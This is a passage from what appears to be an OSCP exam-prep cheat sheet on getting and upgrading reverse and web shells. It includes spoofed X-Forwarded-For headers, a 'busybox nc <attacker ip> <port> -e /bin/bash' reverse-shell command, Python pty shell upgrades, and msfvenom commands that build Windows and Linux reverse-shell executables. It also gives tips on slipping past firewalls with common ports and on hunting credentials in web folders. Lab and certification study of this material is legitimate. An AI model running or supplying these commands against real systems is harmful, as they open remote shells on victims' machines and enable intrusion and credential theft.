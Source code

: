 Be sure to add this before the Priority header or else it will hang!

```bash

X-Originating-IP: 127.0.0.1 
X-Forwarded-For: 127.0.0.1 
X-Remote-IP: 127.0.0.1 
X-Remote-Addr: 127.0.0.1

```
----------------------------------------------
## I got a Webshell! or did I?

 if your shell is part of a multi staged exploit i.e where the exploit script downloads the shell file from you and then executes it on the target, see if the exploit script has a sleep function. lengthen the sleep function to like 10 seconds or something because it takes a while to fully download your shell script

If you have doubts about whether the target is able to reach your HTTP server, you can always check if you received a GET request on your HTTP server tab/terminal. Using Wireshark is also another way to monitor if the target is able to communicate with your machine.

*From experience, whenever possible, always use a stageless payload for OSCP as it usually works if you have the ability to execute a file

- some boxes have firewalls rules so you may need to change your revshell lport to something common like port 53, 80 or 443 to be safe. you can also consider using existing open ports on the target (egress traffic might be open)

- For Wordpress, uploaded stuff are usually in wp-content

- sometimes a direct php revshell would not work. Try a php backdoor shell first and then use it to execute a netcat reverse shell

- is your nc rev shell not working? perhaps the nc on the system is an older version and does not support the -e flag. 
    - To test this, try just running `nc <attacker ip> <port>`. If you get a connection back, then do the following and you should get a nc revshell

```bash
busybox nc <attacker ip> <port> -e /bin/bash 
```

- Once you pop your web shell, it is usually a "weak" shell that may have issues executing follow on exploits. if it linux, upgrade your shell first (needs python)

```bash
# revshell on a linux box
which python python3 # check what version of python there is

# change to /bin/sh if it doesnt work
python -c "import pty;pty.spawn('/bin/bash');"

python3 -c 'import os; os.system("/bin/bash");'
```
- once upgraded, consider using either native nc (which may not work because of your weak shell) or upload a msfvenom shell and execute that to gain a more stable shell

```bash

msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=<port> -f exe > abc.exe 

msfvenom -p linux/x86/shell_reverse_tcp LHOST=<your ip> LPORT=<port> -f elf > abc.elf 

```
- if you enter via a web-service, you should ENUMERATE the /var/www/html folder for creds
